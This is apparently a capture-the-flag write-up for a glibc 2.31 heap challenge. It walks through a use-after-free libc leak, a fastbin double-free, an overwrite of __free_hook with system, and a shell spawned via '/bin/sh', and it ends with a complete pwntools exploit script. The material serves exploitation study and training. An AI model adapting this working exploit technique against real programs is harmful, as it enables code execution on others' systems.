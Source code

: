 ## Level: Medium

### Challenge
```
TLDR: use UAF to leak an address in unsorted bin arena, get allacotions on fastbin and perform a fastbin dup attack to overwrite __free_hook pointer with system("/bin/sh")
```

![menu](https://github.com/user-attachments/assets/80649d50-4fe8-4ef2-b583-93bc2d9f9a58)

Challenge menu. 

![notecheck](https://github.com/user-attachments/assets/a9b4becb-f758-4ac1-b05a-4aae3e0b8a43)

Before we begin, there is a check for number of notes which is essentially how many times we can malloc. To get infitine number of allocations send a negative number when asked. 

### Checksec

![checksec](https://github.com/user-attachments/assets/d57bf470-07f8-406d-bad1-40f7bf3e4d62)

### Approach

```
1 - Fill a bin in tcache to get an allocation on unsorted bin
2 - UAF to leak the address in unsorted bin arena
```

We'll do this by allocating 8 chunks in a way that when free'd, 7 of them will go into the same tcache bin and the last one will go into unsorted bin. 

How do we know that we need 7 allocations? From the source code of glibc 2.31:

![7](https://github.com/user-attachments/assets/30db5d21-8b56-40fa-b0c2-0dfb3b1c1d13)

link: https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L323

![unsorted](https://github.com/user-attachments/assets/fb594473-505b-48c9-a7db-30922bac2200)

Now we just need to leak it by simpy using `3. View notes` option with note id of our unsorted bin allocation. (UAF)

```
3 - Get allocations on fastbin by filling tcache sames size count again
4 - Do the double free trick in fastbin to get 2 malloc with same address
```
The reason we're doing this in fastbin instead of tcache is because we don't have a way to corrupt `key`, the double free protection mechanism in tcache. Fastbin doesn't have `key` protection and can be tricked to get a double free. 

```
  # The trick 
  free(a)
  free(b)
  free(a)
```

![sameadr](https://github.com/user-attachments/assets/07d6beb3-88eb-490f-a148-6a5bb6f87511)

```
5 - Empty tcache line by mallocing 7 times (0x60)
6 - Overwrite next pointer with __free_hook
```

![freehok](https://github.com/user-attachments/assets/73efc40b-5b9d-4e9c-9219-c6e9c7e6fa27)

__free_hook pointer is 0 by default but when set, the address that hook is pointing to is being called instead of default GLIBC free functionality. This is used for debugging and tracking. 

With knowing that all we have to do is get that allocation into head of the tcache list so when we malloc we can read into free_hook's pointer and change it to an address in libc.

```
7 - Malloc twice
```

![headoflist](https://github.com/user-attachments/assets/675665c0-b5f1-47b8-a722-68ca42f2f805)

All good.

```
8 - Malloc to start reading into the address that __free_hook points to and overwrite it with "system"
```

![freessyt](https://github.com/user-attachments/assets/1e712020-c651-456a-a623-9c0323b5eb3d)

```
9 - Malloc again to write "/bin/sh" when asked for content (for rdi)
10 - Free the allocation with content "/bin/sh" and enjoy your shell :)
```

![flag](https://github.com/user-attachments/assets/27bd8bc8-7ca4-4dcc-a8c9-bb07dc82c57f)

Thanks for the author for this cool challenge! As always, following sources helped me a lot through this:

nobodyisnobody's write up: https://github.com/nobodyisnobody/write-ups/blob/main/justCTF.2022/pwn/notes/working.exploit.py
double free on fastbin: https://book.hacktricks.xyz/binary-exploitation/libc-heap/double-free
malloc hooks: https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#malloc-hooks



### Full Exploit
```
#!/usr/bin/env python3

from pwn import *

'''
p = gdb.debug("./notes_patched", gdbscript="""
    continue
""")
'''

# set follow-fork-mode child

p = process("./notes_patched")

# unlimited notes
p.recvuntil(b"to use? (0-10): ")
p.sendline(b"-1")

# allocate 9 chunks
for i in range(9):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("130")
    p.recvuntil(b"content: ")
    p.sendline()

# free 8 chunks, so 7 of them will fill the tcache. the last one goes into unsorted bin
for i in range(8):
    p.recvuntil(b">")
    p.sendline("2")
    p.recvuntil(b"note id: ")
    p.sendline(f"{i}")

# leak unsorted main_arena addr
p.recvuntil(b">")
p.sendline("3")
p.recvuntil(b"note id: ")
p.sendline("7")

# calculate offsets
leak = p.recvline().strip()
leak = int.from_bytes(leak, 'little')
print("unsorted bin leak: " + hex(leak))

libc_base = leak - 2018272
print("LIBC_BASE: " + hex(libc_base))

system = libc_base + 336528
print("SYSTEM: " + hex(system))

# FASTBIN DUP attack
# allocate 10 chunks 
for i in range(10):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("60")
    p.recvuntil(b"content: ")
    p.sendline(b"test")


# free 7 chunks to fill tcache
for i in range(8):
    p.recvuntil(b">")
    p.sendline("2")
    p.recvuntil(b"note id: ")
    i = i + 9
    p.sendline(f"{i}")

# get a double free on fastbin
p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("17")

p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("18")

p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("17")

# clear tcache(0x60) list
# get them fastbins to tcache
for i in range(7):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("60")
    p.recvuntil(b"content: ")
    p.sendline()

# overwrite next pointer with __free_hook
free_hook = libc_base + 2027080
print("free_hook: " + hex(free_hook))
payload = p64(free_hook)

p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# malloc 2 times to get the allocation head of the list 
payload = b"BBBBBBBB"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)


payload = b"CCCCCCCC"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# overwrite the address __free_hook pointing with system
payload = p64(system)
payload += b"B" * 8

p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# malloc again to pass "/bin/sh" 
payload = "/bin/sh"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# free the allocation with "/bin/sh" to call "system('/bin/sh')"
# enjoy your shell >.>
p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("30")

p.interactive()

```


